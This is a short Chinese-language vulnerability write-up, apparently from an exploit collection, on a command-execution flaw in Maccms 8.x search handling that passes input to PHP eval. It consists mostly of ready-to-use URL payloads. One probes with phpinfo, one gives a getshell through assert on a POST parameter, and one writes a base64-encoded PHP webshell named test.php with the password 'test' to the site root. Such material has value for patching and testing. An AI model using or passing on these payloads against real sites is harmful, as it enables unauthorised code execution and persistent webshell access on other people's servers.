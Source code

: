 ```yaml
---
title: Maccms 8.x(苹果cms)命令执行漏洞
id: zhfly3011
---
```


# Maccms 8.x(苹果cms)命令执行漏洞

## 一、漏洞简介

搜索页面搜索参数过滤不严
导致直接eval执行PHP语句，前台命令执行可getshell

## 二、漏洞影响

Maccms 8.x

## 三、复现过程

payload：

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A} 
```

![image](../img/c8659c655b3a4a87ded78b641362aa50.png)

getshell payload（a）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

POST `a=phpinfo()` 
```

![image](../img/6c075af7ab0a960f71f789803ab30458.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A} 
```